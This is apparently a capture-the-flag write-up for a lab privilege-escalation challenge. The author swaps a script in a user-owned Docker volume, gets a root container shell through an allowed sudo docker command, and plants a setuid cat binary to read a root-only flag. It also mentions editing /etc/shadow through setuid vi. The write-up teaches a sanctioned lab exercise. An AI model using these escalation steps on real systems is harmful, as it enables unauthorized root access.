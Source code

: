### Enterprise DevOps 1

_After compromising the left-pad NPM package by guessing the author's NPM credentials (which happened to be the name of his cat, Lucy), you ended up with a shell somewhere deep inside a random company's continuous integration infrastructure._

_Your goal is to escalate your privileges through this multi-stage challenge and pivot through the company network. Each stage of the challenge has its own flag - this is part 1._

_See more details on the dedicated challenge page: [https://devops.allesctf.net/](https://devops.allesctf.net/)_

_Your session is stateful. Please share it with your team members - we have limited capacities. Terminate it unless you're currently working on it._

_The flag format is different for this challenge._


**Tags:** _pwn_


#### Solution

After visiting and reading [https://devops.allesctf.net/](https://devops.allesctf.net/) you are given the option to create a VM and start hacking.  My session ID was `0b0bda088a0a8dc59ab4981d`.

Login:

```
ssh 0b0bda088a0a8dc59ab4981d@broker1.allesctf.net
```

No password was required, at this point I have the following prompt:

```
[build@0b0bda088a0a8dc59ab4981d_stage1 ~]$
```

And, I am logged in as the user `build`.

One of the hints from [https://devops.allesctf.net/](https://devops.allesctf.net/):  _Find hidden clues (except for the flag, which is located at an obvious place like /flag)._

Sure enough, there's the flag:

```
$ ls -l /flag

----------. 1 root root 107 May  2 13:02 /flag
```

And yeah:

```
$ cat /flag

cat: /flag: Permission denied
```

Fail.

I tried to `sudo -s` and `su - root` using the password `Lucy` from the description--no luck.  I also tried different ways to spell `Lucy`, also no luck.

Moving on...

The only thing of interest in build's home dir is a `build.sh` script with the following contents:

```
#!/bin/bash

sudo /usr/bin/docker run -it -v /opt/build-input\:/work fedora\:29 /work/run.sh
```

When executed I get an awesome Tetris clone written in BASH:

![](devops1-1.png)

I can run that `sudo` line the following way as well:

```
sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
```

And that is about it.  Any other alteration (sans remove the `\`'s or adding whitespace) yields a prompt to put in your password for sudo access:

```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for build: 
```

Next I looked at `/opt/build-input`:

```
$ ls -ld /opt/build-input/

drwx------. 3 build build 78 Aug 24 23:55 /opt/build-input/

$ ls -l /opt/build-input/

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 run.sh
```

Looks like I own `build-input`, but not `run.sh`, this is easy to fix:

```
$ cd /opt/build-input/
$ mv run.sh foo.sh
$ echo '#!/bin/bash' >run.sh
$ echo 'bash' >>run.sh
$ chmod 775 run.sh
$ ls -l

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 foo.sh
-rwxrwxr-x  1 build build      17 Aug 24 22:15 run.sh
```

Since I own the directory I can change the metadata of a file, e.g. rename `run.sh` to `foo.sh`.  And since I own the directory I can create a new `run.sh` that just executes `bash`.

Now lets try that sudo again:

```
$ sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
[root@eed1a444ddb6 /]# 
```

I have a root shell (in a container).

The `fedora:29` image does not have the `/` volume mounted, so there's no direct access to `/flag`, but I'm home free at this point.

```
# cp /bin/cat /work
# chmod +s /work/cat
# exit
```

The above copies the `cat` command to `/work` (i.e. `/opt/build-input` outside of the container) and sets the setuid bit.  Since I'm `root` within the container this gets written as a root owned file.  With the setuid bit set, a mere mortal can run the special `cat` command as if root:

```
$ ls -l /opt/build-input/cat

-rwsr-sr-x  1 root  root    52120 Aug 24 23:48 cat
```

Look at them lovely `s`'s.

Capture the flag:

```
$ /opt/build-input/cat /flag

STAGE1_ahpeeHahy7aingea8ahr6

You have successfully compromised this host. It's time to spread your wings!
```

Other commands can be copied over and setuid'd, e.g. `vi` if you want to edit `/etc/shadow` and set root's password, `bash` (invoke with `-p`), etc...
